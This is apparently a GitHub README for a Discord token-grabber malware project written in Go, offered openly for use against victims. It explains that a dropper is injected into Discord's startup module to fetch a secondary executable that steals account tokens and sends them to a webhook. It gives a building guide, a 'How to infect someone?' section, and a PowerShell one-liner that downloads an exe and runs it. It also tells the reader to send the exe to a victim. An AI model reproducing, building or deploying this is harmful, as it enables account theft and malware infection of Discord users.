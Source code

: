 # Read Me

<img src="client/icone.png" style="width:150px">

## What is this?
This token grabber inject an dropper inside discord_desktop_code module (wich is runned at the startup of the app) to download a secondary exe wich is the grabber (barely undetectable by antivirus) and send the token to a webhook
## Is it safe?
No, it's not safe, it's a token grabber, it's made to steal your token, don't use it if you don't know what you're doing
## How to infect someone?
go to the [Building Guide](#Building-Guide) section

# Building Guide
## Primary infector
### 1. Edit webhook url in `main.go`
```go
func main() {
    webhk_url := "YOUR_WEBHOOK_URL ENCODED USING BASE32"
}
```
### 2. Build
```bash
go build -o main main.go
```
### 3. Upload to your server / discord server
___
## Secondary infector (FUD directory)
### 1. Edit payload url in `main.go`
> powershell -c (New-Object System.Net.WebClient).DownloadFile('YOUR URL', 'C:\\Users\\Public\\main.exe'); Start-Process C:\\Users\\Public\\main.exe"


### encode the code above using binary 
```go
cmd := "YOUR_ENCODED_PAYLOAD"
```
### 2. Build
```bash
go build -o main main.go
```
### 3. Send this exe to your victim 
